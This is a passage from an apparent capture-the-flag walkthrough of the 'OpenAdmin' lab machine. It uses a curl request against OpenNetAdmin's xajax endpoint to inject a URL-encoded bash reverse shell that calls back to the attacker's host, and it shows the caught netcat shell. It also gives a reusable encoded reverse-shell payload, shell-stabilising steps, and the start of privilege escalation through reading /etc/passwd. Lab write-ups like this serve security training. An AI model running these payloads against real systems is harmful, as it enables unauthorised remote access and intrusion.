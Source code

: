 Perfect! we have remote command execution, let's see if we can send us a reverse shell with bash URL encoding.

```
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.4%2F443%200%3E%261%22&xajaxargs[]=ping" "http://10.10.10.171/ona/"
```

```
nc -nlvp 443

listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.171] 56534
bash: cannot set terminal process group (1248): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ whoami
whoami
www-data
www-data@openadmin:/opt/ona/www$
```

- Reverse shell with bash URL encoding

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.2%2F443%200%3E%261%22
``` 

Now let's make a treatment of the TTY.
```
script /dev/null -c bash
Ctrl+Z
stty raw -echo
fg

reset
xterm
export TERM=xterm-256color
export SHELL=bash
```

# Privilege escalation.

### First, let's see which of the existing users have a bash.
```
www-data@openadmin:/opt/ona/www$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

### A good practice that I recommend in cases like these where there was a web server with potential users, is to look for a database configuration file.
